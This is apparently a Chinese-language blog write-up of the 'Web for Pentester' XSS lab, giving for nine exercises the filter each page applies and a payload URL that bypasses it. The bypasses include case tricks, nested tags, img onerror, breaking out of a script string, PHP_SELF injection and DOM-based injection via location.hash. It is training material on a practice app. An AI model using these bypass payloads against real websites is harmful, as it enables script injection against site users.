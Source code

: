 ```yaml
---
title: Web for pentest-XSS
comments: false
date: 2016-07-24 23:35:22
categories: 安全
tags: [Web安全,XSS]
---
```

### example1：
未作任何过滤  
`http://192.168.10.12/xss/example1.php?name=<script>alert('xss')</script>`  
<!--more-->
### example2：

过滤了`<script>`,尝试改变大小写  
`http://192.168.10.12/xss/example2.php?name=<sCRipt>alert('xss')</sCRipt>`

### example3：

过滤了`<script>`,尝试嵌套`<script>`  
`http://192.168.10.12/xss/example3.php?name=<scr<script>ipt>alert('xss')</scr</script>ipt>`

### example4：

多次尝试，发现过滤了script这个单词，无论大小写，尝试使用img标签。  
`http://192.168.10.12/xss/example4.php?name=<img src=1 onerror=alert('xss')>`

### example5：

过滤了alert。  
`http://192.168.10.12/xss/example5.php?name=<script>prompt(1);</script>`
同样可以使用`<script>confirm(1);</script>`或者加载外部js`<script src="http://127.0.0.1/xss.js">`

### example6：

输入`<script>alert('xss')</script>`，查看网页源代码
```
Hello
<script>
	var $a= "<script>alert('xss')</script>";
</script>
```
要先闭合前面的`<script>`,payload如下  
`http://192.168.10.12/xss/example6.php?name=</script><script>alert('123')</script>`

### example7：

输入`<script>alert("xss")</script>`，查看网页源代码
```
<script>
	var $a= '&lt;script&gt;alert('xss')&lt;/script&gt;';
</script>
```

html实体编码  
过滤了尖括号`<>`和`"`,但是输出在`<script>`标签中，只需闭合单引号即可。  
`http://192.168.10.12/xss/example7.php?name=';alert(/xss/);'`


### example8：

输入后，通过POST方式提交给example8.php，过滤了尖括号`<>`和`"`。
不知道怎么做，看了下源码。
```
if (isset($_POST["name"])) {
	echo "HELLO ".htmlentities($_POST["name"]);
}
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST">
Your name:<input type="text" name="name" />
<input type="submit" name="submit"/>
```
开始只以为输入在查询框中，看到了htmlentities，没法绕过。网上搜了下，才注意到`echo $_SERVER['PHP_SELF']`打印当前页面地址，所以输入点在url中,闭合form标签。  
`http://192.168.10.12/xss/example8.php/"><script>alert(1)</script>`

### example9:
`http://192.168.10.d12/xss/example9.php#<script>alert(1)</script>`  
查看源码  
`document.write(location.hash.substring(1)
`  
Location 对象的 hash 属性用于设置或取得 URL 中的锚部分（包括 # 标记），substring截取后面的，不包括#。
